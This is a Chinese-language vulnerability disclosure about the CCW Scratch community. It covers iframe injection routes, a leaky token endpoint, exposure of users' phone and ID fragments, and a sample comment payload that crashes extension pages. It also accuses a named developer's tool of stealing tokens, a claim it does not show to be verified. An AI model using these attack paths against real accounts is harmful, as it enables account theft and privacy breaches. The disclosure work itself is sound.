  这是比较常见的方式，缺点是需要等待加载编辑器完成才会执行恶意代码，给受害者几秒钟的反应时间。  

- 基于 m.ccw.site 加载 SVG  
  只要 SVG 加载成功，恶意代码就会立即执行，受害者几乎没有反应时间。  

创作者学院的前端编辑器并不能直接插入任意站点，例如尝试插入 `https://example.com` ，它会提示：暂时只支持bilibili和西瓜视频以及站内链接  

查找并分析js文件  
https://learn.ccw.site/_next/static/chunks/708-9a7dbfbb32eca7d3.js  
https://learn.ccw.site/_next/static/chunks/5191-e0df96b8928838d4.js  
https://learn.ccw.site/_next/static/chunks/app/(normal)/home/layout-a9cb46b1ff2d4762.js  

```js
var r, c, a = n(23891), i = "2023-07-20 10:30:00", s = "64b8c81969db2747de4502be", o = ["https://scratch.mit.edu", "https://youtube.com", "https://www.facebook.com", "https://www.twitch.tv", "https://twitter.com", "https://qa.cocrea.world", "https://www.ixigua.com", "https://ixigua.com", "https://bilibili.com", "https://player.bilibili.com", "https://www.bilibili.com", "https://www.ccw.site", "https://ccw.site", "https://learn.ccw.site", "https://learn-qa.xiguacity.cn"], u = function(t) {
    try {
        var e = new URL(t).origin;
        if (o.includes(e) || e.includes("ccw.site") || e.includes("xiguacity.cn"))
            return !0;
        return !1
    } catch (t) {
        return !1
    }
}
```

创作者学院前端支持插入的 URL origin ：  

```js
[
  // 境内不能直连的
  "https://scratch.mit.edu",
  "https://youtube.com", // 重定向到 www.youtube.com
  "https://www.facebook.com",
  "https://www.twitch.tv",
  "https://twitter.com", // 重定向到 x.com

  // 已无 DNS 解析
  "https://qa.cocrea.world",

  // 西瓜视频已改名为抖音精选，以下旧域名会重定向到 www.douyin.com/jingxuan
  // 目前为止没看到有人嵌入这个网站的视频
  "https://www.ixigua.com",
  "https://ixigua.com",

  // bilibili
  "https://bilibili.com",
  "https://player.bilibili.com",
  "https://www.bilibili.com",

  // CCW
  "https://www.ccw.site",
  "https://ccw.site",
  "https://learn.ccw.site",
  "https://learn-qa.xiguacity.cn" // 已无 DNS 解析
]
```

或者 origin 包含 "ccw.site" 或 "xiguacity.cn" 。  

仅在编辑器里插入的时候会校验，但查看文章的时候加载iframe前不会校验。  
我不知道服务器会不会校验。  

幸运的是，在创作者学院发布这种含有恶意 iframe 的文章，如果造成了恐慌，文章可能会在一天之内被下架。  

---

## CCWData

状态：✅已修复  

Gandi云数据扩展 (CCWData) 已于北京时间 2026年5月21日 16:50:39 修复前端代码注入漏洞。

参考js文件 [20260521.scratch3_ccw_data.9ff72c43.prettyprint.js](20260521.scratch3_ccw_data.9ff72c43.prettyprint.js)

[查看旧版逻辑](./ccwdata-before-20260521-165039.md)  

修复后，相关积木会直接调用新版的积木。相关代码如下  

```js
{
    key: "getValueInJSON",
    value: function(t) {
        this.doNotLogError = !0;
        var e = this.getValueInJSON_2(t);
        return this.doNotLogError = !1,
        e
    }
}
```

```js
{
    key: "setValueInJSON",
    value: function(t) {
        this.doNotLogError = !0;
        var e = this.setValueInJSON_2(t);
        return this.doNotLogError = !1,
        e
    }
}
```

---

## list_sessions接口

状态：✅已修复  

```
POST https://community-web.ccw.site/students/list_sessions?page=1&perPage=20&sortField=createdAt&sortType=DESC
```

这个接口的漏洞十分明显，攻击者只需要知道如何借助心跳接口获取 HmacMD5 的 key ，就可以搞定 A 请求头和 B 请求头，然后请求这个接口，获取当前用户的 token ，从而盗号。  
配合代码注入漏洞，形成漏洞攻击链。

CSense（自称“安全审计工具”的外挂脚本）的作者 [熊谷·凌(FurryR)](https://github.com/FurryR) 曾多次强调 CSense 无法盗取用户的密码，却隐瞒了这一事实。  
早期 CSense 利用该漏洞，将 CSense 使用者的登录信息和 token 发送给 CSense 的作者。

该漏洞在 2026 年 1 月 16 日 被修复，攻击者不能再借助该接口获取 token ，但仍可以获取登录时的时间、IP地址、浏览器版本，问题不大。

> [!NOTE]  
> 如图所示。  
> 这个漏洞已经存在很长时间，如果我不这么催，官方会修吗？  
> 官方是有多心虚才会跑来我的评论区删我的评论？  
> 搞得好像只要忽悠用户就能解决问题似的。  
>
>   
> 
>   

---

## login接口

状态：⚠️未修复  

```
POST https://sso.ccw.site/web/auth/login-by-password
```

该接口会在用户登录时响应的 json 里暴露当前的 token ，但它不会被存储到本地。  

攻击者只能在用户登录的时候获取它，而且只能获取当前会话的 token 。  

但既然用户都在这时候登录了，当然可以直接获取用户输入的密码，所以该漏洞的影响有限，仅对于不使用密码登录的人来说会增加风险。  

---

## 个人信息接口

```
POST https://community-web.ccw.site/students/self/detail
```

用户在已登录的状态下，每次访问 www.ccw.site 都会请求这个接口。  

攻击者成功注入恶意代码之后，请求该接口可以获取敏感信息，包括但不限于：
- 该账号绑定的手机号
- 该账号绑定 QQ 时的 QQ 昵称
- 该账号实名认证的姓氏
- 该账号实名认证的全名的长度
- 该账号实名认证的身份证的前两位和后两位

---

## 创作者学院的localStorage

创作者学院的文章不能在不借助 iframe 的情况下注入恶意代码，而且 iframe 引用的网址必须跨域，例如跨域到 www.ccw.site 或 m.ccw.site 。

iframe 在跨域的时候可能不能获取 `window.parent` 对象，所以暂不清楚该特性能否被攻击者利用。

创作者学院会在 `localStorage['persist:root']` 里保存最近查看文章时使用的账号的敏感信息，包括但不限于：
- 该账号绑定的手机号
- 该账号绑定 QQ 时的 QQ 昵称
- 该账号实名认证的姓氏
- 该账号实名认证的全名的长度
- 该账号实名认证的身份证的前两位和后两位

即使用户已经退出登录，这里也会继续保存这些内容。

---

## 素材集市的扩展恶意打分评论

状态：✅已修复

该漏洞不能用于注入恶意脚本，因此不能用于盗号。  

[素材集市](https://assets.ccw.site/)的扩展打分评论渲染器要求评论的第一行必须以 `-评分:` 开头。

正常的扩展打分评论是这样的：

```
-评分: 5
-标签: 安全
打个分
```

如果缺少 `-评分:` ，会导致渲染器抛出错误，整个页面白屏，中间显示一行黑色的文字：  

```
Application error: a client-side exception has occurred (see the browser console for more information).
```

攻击者可以请求接口，在“扩展打分”发送缺少评分的恶意评论，例如：

```
-没有评分
-没有标签
我“不小心”把你扩展炸了
```

即使账号已封禁，该打分评论仍未删除，仍会导致页面无法正常显示。  

受影响的页面例如 https://assets.ccw.site/extension/csb3.2

---

## BBcode代码注入漏洞

状态：✅已修复

参考 [BBcode教程](https://learn.ccw.site/post/7d129e01-e30a-4d88-92d2-320b555ed0f5) 的评论区。

---

## 官方的承诺

### 节选自《[重要通告]保护账号安全，做对这几件事...》  

> [!NOTE]  
> 该文章发表时，list_sessions 接口盗 token 的漏洞未修复。  
> 鸭鸭院长（CCW官方）试图忽悠用户，掩盖问题。  

对此，许多肝酱担忧是否因账号被盗导致了信息泄露？结合前文所示，盗号者没有任何渠道能够获取肝酱们的安全信息。

### 节选自《CCW共创世界隐私政策》  

> [!NOTE]  
> 这话 CCW 官方自己信吗？  

版本更新日期：2021年06月01日  
本政策生效日期：2021年06月01日  

**五.我们如何存储和保护您的个人信息**  
（二）个人信息的保护  
1. 平台会采取合理可行的措施，尽力避免收集无关的个人信息。平台只会在达成本政策所述目的所需的期限内保留您的个人信息，除非法律有强制的存留要求。在您的个人信息超出保留期间后，平台会根据适用法律的要求删除您的个人信息，或使其匿名化处理。

2. 我们已通过了公安部信息安全等级保护三级认证，并与监管机构、第三方测评机构建立了良好的协调沟通机制，及时抵御并处置各类信息安全威胁，为您的信息安全提供全方位保障。

3. 平台已制定个人信息安全事件应急预案，定期组织内部相关人员进行应急响应培训和应急演练，使其掌握岗位职责和应急处置策略和规程。

4. 如发生个人信息安全事件后，平台将按照法律法规的要求并最迟不迟于 30 个自然日内向您告知：安全事件的基本情况和可能的影响、平台已采取或将要采取的处置措施、您可自主防范和降低风险的建议、对您的补救措施等。事件相关情况平台将以邮件、信函、电话、推送通知等方式告知您，难以逐一告知个人信息主体时，平台会采取合理、有效的方式发布公告。同时，平台还将按照监管部门要求，上报个人信息安全事件的处置情况。

5. **由于技术的限制以及可能存在的各种恶意手段，在互联网行业，即便竭尽所能加强安全措施，也不可能始终保证信息百分之百的安全，我们将尽力确保您提供给我们的个人信息的安全性。请您知悉并理解，您接入我们的服务所用的系统和通讯网络，有可能因我们可控范围外的因素而出现问题。因此，我们强烈建议您采取积极措施保护个人信息的安全，包括但不限于使用复杂密码、定期修改密码、不将自己的账号密码等个人信息透露给他人。**

---

## 相关文章

- [账号被黑了怎么办？别慌，我教你](https://learn.ccw.site/article/d856bd13-0dec-412e-b6a9-ecf329f968f3)  
  [可可爱爱没有脑袋](https://www.ccw.site/student/6999b7dbfc898317568f6bb2) 2026-06-26 15:06

- [CCW扩展事件分析(二周目)](https://learn.ccw.site/article/6839840e-aa50-47d4-8028-ae932bddfee7)  
  [孟夫子驾到](https://www.ccw.site/student/63c2807d669fa967f17f5559) 2026-06-25 08:17

- [不想上学5月炸账号，6月炸编辑器😡](https://learn.ccw.site/article/f0ced395-b861-46aa-b1f1-e106af09340f)  
  [离离原上谱](https://www.ccw.site/student/68820f8f0fffab5209c5a665) 2026-06-24 14:46

- [【功能上新】安全通告](https://learn.ccw.site/article/3e7e506e-7688-4de6-a87d-64e4c31fcd85)  
  [共创世界产品汪](https://www.ccw.site/student/6008f86de6894d53dd63749f) 2026-06-17 15:37

- [ccw扩展覆写事件分析，此漏洞其实早就被发现了？](https://learn.ccw.site/article/77be3d26-dbf6-4d82-b323-5fc06033c600)  
  [孟夫子驾到](https://www.ccw.site/student/63c2807d669fa967f17f5559) 2026-05-31 17:53

- [CCW 社区安全 Q&A](https://learn.ccw.site/article/51501436-87d5-4d4b-976e-2d00bbc50e9a)  
  [Chen-Jin](https://www.ccw.site/student/692538ef86bbc77f84e3b259) 2026-05-10 02:45  

- [不想上学 | Ccw逆天入 Wiki | Fandom](https://ccw-amazing-animals.fandom.com/zh/wiki/%E4%B8%8D%E6%83%B3%E4%B8%8A%E5%AD%A6)  

- [不想上学的所作所为](https://learn.ccw.site/article/957a30f1-3dfb-4037-a994-4c8499708511)  
  [纆默黑狗斯特-mmhgst](https://www.ccw.site/student/60cd5619fa5edd0db169e2b8) 2026-05-08 19:07  

- [为什么你的密码会被恶意扩展窃取？](https://learn.ccw.site/article/87737a20-a45d-4d41-b950-1af19dbc1ae7)  
  [往昔余庆](https://www.ccw.site/student/5db279a4483f207ab58b3929) 2026-05-08 02:28  

- [软弱无能的共创世界](https://learn.ccw.site/article/31b8737c-f6be-406b-9c9f-becf3fd3004a)  
  [纆默黑狗斯特-mmhgst](https://www.ccw.site/student/60cd5619fa5edd0db169e2b8) 2026-05-06 23:41  

- [如何屏蔽 CCW 里的无关网站以增加安全性？](https://learn.ccw.site/article/effd5854-9ae9-4483-8927-efaa4a9a7d79)  
  [往昔余庆](https://www.ccw.site/student/5db279a4483f207ab58b3929) 2026-05-05 21:03  

- [不是。你手机号停运了我咋盗你号啊。](https://learn.ccw.site/article/692893c5-8525-4744-bb4d-a782cb5505be)  
  [纆默黑狗斯特-mmhgst](https://www.ccw.site/student/60cd5619fa5edd0db169e2b8) 2026-05-05 19:15  

- [Every version of Scratch is vulnerable to arbitrary code execution](https://muffin.ink/blog/scratch-vulnerability-disclosure/)  
  [muffin.ink](https://muffin.ink) 2026-04-23  

- [【社区公告】关于“账号安全”的通知](https://learn.ccw.site/article/998d3e07-7210-4b5a-ab6d-64ac84e3caef)  
  [共创世界产品汪](https://www.ccw.site/student/6008f86de6894d53dd63749f) 2026-04-13 19:20  

- [恶意扩展如何让你上钩？远远不止这些……](https://learn.ccw.site/article/5f06747c-fae9-4ed6-b69e-24016eedbfd3)  
  [浅_酱_](https://www.ccw.site/student/63d8837e6bc82a13fb855f0a) 2026-04-11 22:21  

- [Gandi内置的扩展有潜在使用eval函数执行任意js脚本的风险](https://learn.ccw.site/article/7d25e249-458a-4016-956f-d49cb315ca54)  
  [无心小白僵尸](https://www.ccw.site/student/66366121a7113d4ff035cd9c) 2026-02-23 12:33  

- [[重要通告]保护账号安全，做对这几件事...](https://learn.ccw.site/article/6af308a5-cb78-465c-bb1e-572c48f0fc5e)  
  [鸭鸭院长](https://www.ccw.site/student/61039f14fffbe5461b880787) 2025-12-08 17:09  

- [BBcode教程](https://learn.ccw.site/post/7d129e01-e30a-4d88-92d2-320b555ed0f5)  
  [白猫](https://www.ccw.site/student/6173f57f48cf8f4796fc860e) 2023-07-18
